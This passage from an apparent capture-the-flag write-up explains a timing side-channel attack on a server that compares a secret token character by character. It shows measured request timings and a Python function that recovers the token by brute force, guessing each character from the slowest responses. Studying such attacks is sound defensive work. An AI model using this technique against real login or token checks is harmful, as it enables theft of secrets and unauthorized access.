 ```
Token b0__________, request took in avg 0.056
Token b1__________, request took in avg 0.056
Token b2__________, request took in avg 0.055
Token b3__________, request took in avg 0.056
Token b4__________, request took in avg 0.108
Token b5__________, request took in avg 0.058
Token b6__________, request took in avg 0.057
...
Token bx__________, request took in avg 0.054
Token by__________, request took in avg 0.055
Token bz__________, request took in avg 0.055
```

Just as we expected: every token took about 0.055 seconds, except for `b4...` that took 0.05s longer.

From that, we can deduct the following: the server checks char by char. At each correct character, it "waits" (maybe does something else, but for us it translates to sleeping) for ~0.05 seconds (in avg). If the character is wrong, it stops immediately.

## Attacking the vulnerability
While we could repeat the process above for each character, it would quickly become cumbersome. Much better to let Python do it for us!

We have 2 ways of attacking it. The lazy way and the smart way.

### The lazy way
What we notice is that the last correct character will take noticeable more time than the other incorrect characters. So one way is to simply measure (across multiple runs) the time for each character. Then we take the one that took the most time and decide it's the correct character. Then we "restart" with a new base token.

The code could look like that (in addition to previous imports and defined functions):

```py
def guess(token_start):
    if len(token_start) == TOKEN_LENGTH:
        print("Token: {}".format(token_start))
        return token_start

    times = []
    for char in charset:
        print(token_start+char, end="\r")

        char_times = []
        tentative_token = token_start + char + \
            (TOKEN_LENGTH - len(token_start) - 1)*'_'
        for _ in range(3): # let's do that 3 times to be more robuse.
            char_times.append(post(tentative_token))
        times.append((char, sum(char_times))) # compare sums of means, no difference
    max_char = max(times, key=lambda x: x[1])[0]  # char with longest time
    guess(token_start+max_char)

guess("")
```
